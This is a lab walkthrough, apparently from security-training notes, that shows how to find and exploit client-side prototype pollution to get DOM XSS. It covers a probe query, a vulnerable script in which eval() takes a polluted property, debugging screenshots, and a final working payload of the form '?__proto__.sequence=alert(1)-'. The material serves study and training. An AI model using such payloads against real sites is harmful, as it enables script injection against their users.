 # Lab 2

### Objective: Get DOM XSS

#### Manual Method

We can notice this time the last query doesn't work, but we can use this

```
/?__proto__.foo=bar
```

Verify it worked

![](<../../../.gitbook/assets/image (14).png>)

Now, we check source to find potential gadgets. It will be noticable in `SearchLoggerAlternative.js` .

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

We have a Sink because the use of the function `eval()`

```js
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```

We can also find the gadget from this line. `manager.sequence` is not being explicitly defined and is user-controllable input that is passed to `eval()`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

Now, we try to pass in the query to exploit

```
?__proto__.sequence=alert(1)
```

But we see that it does not work and returns an error in the console. Click the link at the top to jump to the line where `eval()` is called

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Put a breakpoint by clicking the line number, then refresh the page

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

If we hover over the gadget reference, we can see that its value is `alert(1)1` .

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

This indicates that our payload worked but because that we polluted `Object.prototype` earlier and because of this block, `sequence` has now inherited `alert(1)` and going down the line, it is concatenated by `1` , making the value of `sequence` property = `alert(1)1`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

#### Exploit

To fix this syntax we can append `-` to our exploit

```
/?__proto__.sequence=alert(1)-
```

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
